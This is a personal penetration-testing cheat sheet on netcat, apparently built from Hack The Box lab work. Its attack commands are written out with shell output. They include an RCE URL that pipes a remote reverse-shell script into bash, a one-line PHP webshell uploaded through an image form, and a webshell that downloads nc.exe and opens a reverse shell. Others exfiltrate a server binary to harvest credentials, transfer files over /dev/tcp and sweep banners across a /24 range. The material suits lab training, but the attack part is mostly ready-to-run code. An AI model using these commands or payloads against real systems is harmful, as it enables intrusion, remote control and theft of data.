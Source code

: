 # 💢 netcat / ncat / nc

Tags: #💢 
Related to: 
See also: [[powercat]], [[socat]]
Previous: [[ ]]

## Description

TCP/IP swiss army knife.

## Usage Examples

### Connect to a host

	nc localhost 6379

### Setup listener to receive reverse shell

	nc -lvnp 9001

Use RCE to execute reverse shell script.

	http://10.129.171.59/templates/protostar/htb.php?pwn=curl 10.10.17.201/reverse_shell.sh | bash

```nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.17.201] from (UNKNOWN) [10.129.171.59] 37656
bash: cannot set terminal process group (1542): Inappropriate ioctl for device
bash: no job control in this shell
www-data@curling:/var/www/html/templates/protostar$
```

### Harvest banners from CIDR /24 range for given port-range

	for i in {0..255};
		do nc -nvw2 192.168.0.$i [port-range];
		done

### Leverage a PHP vulnerability to get a reverse shell

The registration form has the option to upload an image. Save the below code to shell.php and upload it using the form.

	vi shell.php

```
<?php echo exec($_GET["cmd"]);?>
```

Click on Submit to complete registration and upload the webshell. The web shell can be accessed at:

	proxychains firefox http://172.16.1.13/discuss/ups/shell.php?cmd=whoami	// dante-ws01\gerald

Let's upgrade to a proper shell. Upload netcat to target:

	ifconfig tun0										// local IP 10.10.16.52
	cd "/home/kali/HTB/Pro Labs/Dante/www"
	cp /usr/share/windows-resources/binaries/nc.exe .
	python3 -m http.server 80
	
	proxychains firefox http://172.16.1.13/discuss/ups/shell.php?cmd=powershell wget 10.10.16.52/nc.exe -o nc.exe

	nc -lvnp 9001	// locally
	
	proxychains firefox http://172.16.1.13/discuss/ups/shell.php?cmd=nc.exe -e cmd.exe 10.10.16.52 9001

```
Microsoft Windows [Version 10.0.18363.900]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\discuss\ups>
```

### Exfiltrate file

Let's get SERVER.EXE onto our running machine and see if we can extract some credentials from the binary:

	nc -lvnp 3333 > server.exe						// locally
	nc.exe 10.10.16.52 3333 < C:\Apps\SERVER.EXE	// remotely

### Transfer file

Transfer chisel to DANTE-WEB-NIX01:

	nc -lvnp 80 < chisel	// in my Dante/www
	bash -c "cat < /dev/tcp/10.10.16.52/80 > chisel"

	nc -lvnp 80 < nmap						// kali
	cat < /dev/tcp/10.10.16.12/80 > nmap	// target

# References